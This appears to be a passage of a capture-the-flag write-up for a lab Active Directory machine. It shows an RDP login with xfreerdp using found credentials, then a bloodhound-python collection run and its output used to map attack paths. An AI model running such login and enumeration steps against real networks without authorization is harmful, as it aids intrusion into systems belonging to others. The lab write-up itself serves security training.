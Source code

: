 
Logged-in using the `xfreerdp` utility and obtained the user flag, also noticed another user with a home folder called `BRADLEY_ORTIZ`


```bash
❯ xfreerdp /u:SUSANNA_MCKNIGHT /p:'********' /v:10.10.197.194 /cert-ignore
[10:15:19:951] [946868:946869] [ERROR][com.winpr.timezone] - StandardName conversion failed - using default
[10:15:19:553] [946868:946869] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[10:15:19:553] [946868:946869] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[10:15:19:634] [946868:946869] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[10:15:19:634] [946868:946869] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[10:15:21:628] [946868:946869] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
```


![](https://i.imgur.com/YR9MmmJ.png)


Run the `b-p` collector to further analyze attack paths



```bash
❯ bloodhound-python -u IVY_WILLIS -p '********' -ns 10.10.197.194 -d thm.local -c all --zip --dns-timeout 100
INFO: Found AD domain: thm.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (labyrinth.thm.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: labyrinth.thm.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: labyrinth.thm.local
INFO: Found 493 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 222 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: labyrinth.thm.local
INFO: Done in 01M 05S
INFO: Compressing output into 20250715095925_bloodhound.zip
```

Loaded `neo4j` and `bloodhound` to analyze the data gotten from the collector


![](https://i.imgur.com/449hGQo.png)
